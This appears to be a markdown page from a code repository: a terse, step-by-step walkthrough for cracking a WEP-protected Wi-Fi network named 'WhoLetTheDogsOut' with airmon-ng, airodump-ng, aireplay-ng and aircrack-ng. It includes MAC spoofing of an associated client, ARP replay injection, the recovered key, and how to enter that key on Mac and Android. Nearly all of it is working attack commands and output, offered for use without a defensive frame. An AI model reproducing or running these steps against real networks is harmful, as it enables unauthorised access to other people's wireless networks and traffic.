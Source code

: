 > ```
> Network: WhoLetTheDogsOut
> Channel: 1
> BSSID: A0:21:B7:F8:B7:DB
> Associated client: 00:1e:8f:93:80:9a
> ```

If this error is encountered:
> `SIOCSIFFLAGS: Operation not possible due to RF-kill`

Then run:
> `sudo rfkill unblock all`


airmon-ng start wlan0 [channel]
> ```
> sudo airmon-ng start wlan0 1
> ```
> This creates a new interface in monitor mode.


Terminal 1 (capture packets):
> ```
> sudo airodump-ng mon4 -c 1 -w packets
> ```

Terminal 2 (replay packets):
> ```
> sudo ifconfig wlan0 down
> sudo ifconfig wlan0 hw ether 00:1e:8f:93:80:9a
> sudo ifconfig wlan0 up
> sudo aireplay-ng -3 -b A0:21:B7:F8:B7:DB -h 00:1e:8f:93:80:9a -e WhoLetTheDogsOut --ignore-negative-one mon4
> ```

Terminal 3 (crack key):
> ```
> sudo aircrack-ng -z packets-01.cap
> KEY FOUND! [ 25:EC:24:44:41 ]
> Decrypted correctly: 100%
> ```

How to enter password:

- Mac: prefix network key with `0x` to use hex: `0x25ec244441`.
- Android: no prefix is needed: `25ec244441`.

